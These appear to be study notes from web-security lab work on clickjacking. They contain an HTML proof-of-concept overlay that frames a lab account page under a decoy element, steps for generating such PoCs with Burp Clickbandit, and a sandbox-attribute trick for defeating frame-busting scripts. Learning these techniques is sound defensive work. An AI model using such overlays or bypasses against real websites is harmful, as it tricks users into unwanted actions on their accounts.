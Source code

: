 ### Clickjacking

**Clickjacking PoC**
```
<style>
    iframe {
        position:relative;
        width:99vw;
        height: 99vh;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:400px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a96005403001104812e3ea900bf0098.web-security-academy.net/my-account"></iframe>
```

**Clickbandit**
- Used to automatically generate PoCs
- Steps:
  - Burp Menu -> Clickbandit
  - Paste the scripts in the JS console
  - Click start, perform actions, click finish to record
  - Save

**Scripts Blocking Iframes**
- Sometimes websites have scripts checking to make sure iframes are visible and the main page is the top menu
- Can usually be circumvented using iframe `sandbox` attribute
  - `<iframe id="victim_website" src="https://{vulnerable_site}.com" sandbox="allow-forms"></iframe>`
  - Clickbandit supports this